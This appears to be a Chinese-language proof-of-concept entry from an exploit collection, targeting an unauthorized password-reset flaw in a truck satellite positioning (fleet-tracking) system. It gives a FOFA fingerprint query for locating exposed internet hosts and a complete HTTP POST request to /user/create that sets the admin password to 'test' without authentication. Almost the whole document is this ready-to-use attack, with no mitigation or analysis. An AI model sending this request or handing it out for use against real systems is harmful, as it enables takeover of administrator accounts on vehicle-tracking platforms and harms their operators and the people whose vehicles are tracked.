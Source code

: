 ## 卡车卫星定位系统create存在未授权密码重置漏洞

## fofa
```
icon_hash="1553867732"
```
![image](https://github.com/wy876/POC/assets/139549762/3ce718e2-b8cf-4316-9b47-70997ee75723)


## poc
```
POST /user/create HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

account=admin&id=1&password=test&passwordRepeat=test&groupName=111&roleid=5&validend=&phone=&email=&chncount=36&flowType=1&oldFlowType=&flowVal=&flowAlarmVal=&oldFlowAlarmVal=&logContent=111&guid=222&token=
```
